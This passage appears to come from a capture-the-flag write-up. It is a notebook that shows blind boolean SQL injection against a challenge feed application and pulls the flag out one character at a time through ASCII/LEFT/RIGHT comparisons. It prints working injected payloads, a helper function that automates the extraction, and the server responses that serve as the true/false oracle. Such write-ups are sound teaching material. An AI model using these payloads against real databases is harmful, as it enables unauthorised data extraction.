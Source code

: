 We can double check that our comparison works by testing against parts of the flag that we already know.


```python
# 2nd character of flag is NOT (capital) 'O', should return false
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('O')"
)
```




    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('O')) != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)




```python
# 2nd character of flag is (small) 'o', should return true
query_challenge_union(
    "admin.Keys",
    "Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 2), 1)) = ASCII('o')"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)



To speed things up, we can make another helper function.


```python
def query_character_eq(index, character): # index is 0-indexed
    return query_challenge_union(
        "admin.Keys",
        f"Keys.key LIKE 'govtech-csg{{%' AND ASCII(RIGHT(LEFT(Keys.key, {index + 1}), 1)) = ASCII('{character}')"
    )
```


```python
# Sanity check the eq helper function, third character is (small) 'v', should return false, true
query_character_eq(2, 'V'), query_character_eq(2, 'v')
```




    ((False,
      "Failed to add ' OR (SELECT COUNT(*) FROM admin.Keys WHERE Keys.key LIKE 'govtech-csg{%' AND ASCII(RIGHT(LEFT(Keys.key, 3), 1)) = ASCII('V')) != 0 AND '1'='1; no new feeds allowed!",
      <Response [200]>),
     (True, 'Feed with same title already exists!', <Response [500]>))
